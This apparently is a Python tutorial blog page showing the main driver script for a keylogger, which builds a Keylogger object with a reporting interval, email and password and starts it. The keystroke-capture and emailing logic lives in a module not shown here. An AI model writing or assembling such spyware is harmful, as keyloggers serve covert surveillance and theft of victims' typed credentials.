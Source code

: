 ```yaml
---
title: Main method Invoking the Keylogger class
permalink: /permalinks/keylogger/main
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
---
```


# This script invokes all methods and classes used by the keylogger.

We make the code modular and much easy to read seperating the keylogger class and main files. 
We use this class to invoke methods from the keylogger class to log and report.


### Code:

```python
#!/usr/bin/env python

import argparse
# import filename
import keylogger


# Parse Args
options = keylogger.get_arguments()
print(keylogger.banner)
# new object definition for class "Keylogger"
my_keylogger = keylogger.Keylogger(int(options.interval), str(options.email), str(options.password))
# Use the start method
my_keylogger.start()
```